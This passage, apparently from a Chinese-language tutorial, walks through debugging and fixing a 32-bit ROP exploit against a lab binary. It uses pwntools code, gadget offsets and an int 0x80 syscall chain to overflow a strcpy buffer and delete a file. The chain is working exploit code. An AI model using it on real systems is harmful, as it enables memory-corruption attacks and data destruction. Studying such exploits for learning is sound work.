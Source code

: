```python
    int_addr,
]

payload = b'a' * offset
for value in stack_values:
    payload += p32(value)

with open('payload','wb') as f:
    f.write(payload)
```
之后执行文件即可。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1719053136963-3c30c4bb-a19e-4c00-bfba-29ac3382d9cc.png#averageHue=%23e9e8e7&clientId=u1097f039-8b00-4&from=paste&height=411&id=u61ce07a1&originHeight=617&originWidth=1580&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=280766&status=done&style=none&taskId=ufcf608d9-b75e-400f-93b2-c970a3b921a&title=&width=1053.3333333333333)
没执行前还可以看到 data 文件在目录下，下面我们执行 rop_test。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1719058249305-91f7f297-b11d-46d9-8da8-8b4a31ed0c91.png#averageHue=%2383858e&clientId=uf1920686-3db5-4&from=paste&height=79&id=uf9206ae6&originHeight=119&originWidth=1105&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=65325&status=done&style=none&taskId=ub72af6e1-b21e-40ed-af0f-87994c42485&title=&width=736.6666666666666)
这里竟然出现了段错误，说明我们的 gadget 链执行出了异常。哪里出了问题呢？我们用 gdb 分析看看。
定位到 strcpy 发生之后，程序通过 ret 进入到了 gadget1：
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1719058426524-02e9f896-9838-46dd-8289-eca82a8ee677.png#averageHue=%2385868e&clientId=uf1920686-3db5-4&from=paste&height=189&id=u014bee9a&originHeight=284&originWidth=1026&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=133690&status=done&style=none&taskId=u8e4ee2cc-d4cb-4104-89b3-31f20cd89b9&title=&width=684)
但是返回地址好像有一点问题，并不是我们设定的 gadget2 入口，说明 strcpy 存在异常。我们返回到缓冲区看看拷贝的情况。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1719058374557-97ce3125-c798-45f6-b899-5c4550b5caf3.png#averageHue=%23848791&clientId=uf1920686-3db5-4&from=paste&height=425&id=u34dba245&originHeight=638&originWidth=1055&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=552182&status=done&style=none&taskId=ua9c3c961-7f8e-43eb-827b-0e55b121f84&title=&width=703.3333333333334)
发现在填充之后，是 gadget1 的地址，到这里没有问题。但是之后 4 字节就不对劲了，原本应该是存储的调用号 0x0000000a，但是却变成了 0xffff000a。
根据我们之前的学习，应该是 strcpy 在进行拷贝时将前面的 0x00 识别为了 '\0'，导致了 strcpy 提前终止。所以后面的内容都是垃圾值了，ret 跳转也失败了。
所以我们只好再去寻找将 eax 置 0；让 eax 自增的 gadget。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1719059261104-5d57ae16-8ac5-4950-b3be-4157592b5a77.png#averageHue=%23888991&clientId=uf1920686-3db5-4&from=paste&height=64&id=ua23fea50&originHeight=96&originWidth=797&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=50684&status=done&style=none&taskId=u28fe3229-5034-4e5b-9720-38bf65333e5&title=&width=531.3333333333334)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1719059326958-e0d65946-d6e6-46c1-bbb5-e7dcba0859bb.png#averageHue=%23848690&clientId=uf1920686-3db5-4&from=paste&height=43&id=u27e6239e&originHeight=65&originWidth=449&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=26299&status=done&style=none&taskId=ube5f5c05-030b-4525-bc5c-6a37c2bfa76&title=&width=299.3333333333333)
最后在 libc 库里定位偏移量分别为 0x00034ec0，0x0002f7b5。 
修改完的 exploit 程序代码如下：
```python
from pwn import *
import struct 
buf_addr = 0xffffbbbc
ebp_addr = 0xffffbc28

libc_addr = 0xf7c00000

pop_eax = 0x0002ed92
pop_ebx = 0x0002c01f
xor_eax = 0x00034ec0
inc_eax = 0x0002f7b5
data_addr = 0x00012a97

int_addr = 0x08048623 # int 0x80; pop eax; ret;

offset = ebp_addr - buf_addr + 0x4

stack_values = [
    # libc_addr + pop_eax,
    libc_addr + xor_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + pop_ebx,
    data_addr,
    int_addr,
```